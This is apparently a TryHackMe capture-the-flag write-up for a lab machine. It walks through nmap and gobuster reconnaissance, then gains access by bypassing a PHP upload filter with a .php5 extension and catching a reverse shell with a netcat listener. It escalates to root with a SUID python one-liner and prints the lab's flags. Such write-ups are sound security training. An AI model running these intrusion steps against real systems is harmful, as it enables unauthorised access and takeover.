 ### IP
`10.10.115.34`

# Reconnaissance
### nmap
`nmap -sC -sV 10.10.115.34 -oN init.nmap`
```
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-27 00:44 EDT
Nmap scan report for 10.10.115.34
Host is up (0.16s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: HackIT - Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 36.75 seconds
```

### gobuster
`gobuster dir -u 10.10.115.34 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`
```
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.115.34
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/03/27 00:46:15 Starting gobuster in directory enumeration mode
===============================================================
/uploads              (Status: 301) [Size: 314] [--> http://10.10.115.34/uploads/]
/css                  (Status: 301) [Size: 310] [--> http://10.10.115.34/css/]    
/js                   (Status: 301) [Size: 309] [--> http://10.10.115.34/js/]     
/panel                (Status: 301) [Size: 312] [--> http://10.10.115.34/panel/]  
Progress: 62808 / 220561 (28.48%)                                                ^C
[!] Keyboard interrupt detected, terminating.
                                                                                  
===============================================================
2021/03/27 00:59:20 Finished
===============================================================
```
* There is an `/uploads` directory and a `/panel` directory, which allows us to upload files.

# Reverse shell
* We can use the pentestmonkey php reverse shell to get a reverse shell.
	* However, trying to upload a php file is blocked.
* [This](https://null-byte.wonderhowto.com/how-to/bypass-file-upload-restrictions-web-apps-get-shell-0323454/) explains that there are a few ways to bypass php file upload restrictions
	* Renaming our file from `*.php` to `*.php5` lets us upload the file

* Then we can run our listener with `nc -lvnp 1337` and run the shell on the uploads directory we found
	* This gets a reverse shell

* `find / -name user.txt 2>/dev/null` gives us the user flag file at `/var/www/user.txt`.
	* `cat /var/www/user.txt` gives us `THM{y0u_g0t_a_sh3ll}`

### Privesc
* We can look for suid binaries with `find / -perm -u=s -type f 2>/dev/null`
	* A very notable one is `/usr/bin/python`

* We can privesc with `/usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'`

* `cat /root/root.txt` gives us `THM{pr1v1l3g3_3sc4l4t10n}`


